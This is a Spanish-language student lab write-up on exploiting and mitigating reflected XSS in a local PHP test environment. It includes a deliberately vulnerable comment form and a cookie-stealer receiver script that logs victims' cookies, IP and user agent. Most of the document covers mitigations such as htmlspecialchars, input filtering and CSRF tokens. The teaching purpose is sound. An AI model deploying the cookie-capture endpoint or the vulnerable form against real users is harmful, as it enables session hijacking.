

# PPS-Unidad3Actividad5-XSS-RaulAlbalatPerez

Explotación y Mitigación de Cross-Site Scripting (XSS)
===
 Objetivo de la práctica:

> El propósito principal de esta actividad es repasar y poner en práctica los ataques de tipo Cross-Site Scripting (XSS), identificando sus principales variantes como el XSS reflejado, almacenado y basado en DOM. Asimismo, se busca analizar fragmentos de código que presentan vulnerabilidades comunes a este tipo de ataque, y aplicar distintas técnicas de prevención que fortalezcan la seguridad de las aplicaciones web frente a estas amenazas.

## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos a crear un página **php** vulnerable. 

## Código vulnerable
---
En primer lugar los que haré será crear un archivo vulnerable **comment.php** en el entorno de pruebas **Lamp** dentro del directorio **www**. Dentro de `www`  creo un directorio **xss** donde meteré el **comment.php** .Dentro de él irá  el siguiente contenido.

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

Este fragmento de código genera un formulario que permite al usuario introducir un comentario. Al enviarlo, dicho comentario se imprime directamente en la página con el mensaje “Comentario publicado:\[comentario\]". ESte código no realiza ningún tipo de validación ni limpieza sobre la información introducida por el usuario, lo que abre la posibilidad de insertar scripts maliciosos que pueden ser ejecutados por el navegador.

### **Explotación de XSS**
---

Para realizar las explotaciones tendremos que abrir el navegador y acceder a la aplicación: <http://localhost/comment.php> esto nos abrirá un formulario.

**Explotación 1**

En dicho formulario lo que vamos a realizar es introducir un código **JS** para comprobar que el formulario no está lo suficientemente securizado.

~~~

~~~

Me aparece una alerta **(alert()**) en el navegador por lo que puede ser vulnerable.

**Explotación 2**

En esta explotación introducimos este código.

``

Vemos que  nos redirige a una página de phishing.

**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- Creamos un  **servidor atacante** en el servidor web. Para ello creamos directorio de nombre `cookiestealer`dentro de `www` en el cual tendrá un fichero `index.php`con el siguiente código  obtenido de [este archivo php](files/steal.php). Tambien crearemos un fichero `cookies.txt` en la misma ruta donde se encuentra `index.php` y le daremos los permisos corrspondientes.  
~~~

<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
~~~

Ataque: Si insertamos en el comentario el siguiente script
~~~
`
~~~

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.Para ello voy a  crear el fichero `comment1.php` con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

La función que hemos creado al principio del documento: `filter_string_polyfill` nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

Una vez creada `comment1.php` entramos como anteriormente pero con <http://localhost/xss/comment1.php> 

Ejecuto el script anteriorque redireccionaba a una página de phishing, para poder comprobar que no se ha ejecutado.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Para realizar la sanitización d ela entrada con `htmlspecialchars()` voy a crear un archivo **comment2.php** con el siguiente código

~~~
<?php
if (isset($_POST['comment'])) {
    // Guardamos el valor del comentario recibido por POST
    $comment = $_POST['comment'];

    // Convertimos caracteres especiales a entidades HTML
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Mostramos el comentario ya filtrado
    echo "
<strong>Comentario publicado:</strong> $comment
";
}
?>
<form method="post">
    <input type="text" name="comment" required>
    <button type="submit">Enviar</button>
</form>
~~~

Aunque usar `htmlspecialchars()` es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:
comprobamos resultado accediendo a la URL.

**Validación de entrada**
---

En su estado actual, el código no restringe el contenido enviado por el usuario, permitiendo incluso que se introduzcan campos vacíos o textos excesivamente extensos. Es recomendable aplicar validaciones para garantizar que los comentarios tengan un formato y longitud apropiados. Para resolverlos creo  `comment3.php` con el siguiente código:
~~~
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['comment'])) {
    // Sanitizar el comentario recibido
    $comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

    // Validar contenido
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <input type="text" name="comment" required maxlength="500">
    <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro

Por último para terminar creo  `comment4.php` con todas las mitigaciones incluidas 

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.

🚀 Resultado

✔ Código seguro contra **Cross-Site Scripting (XSS)**
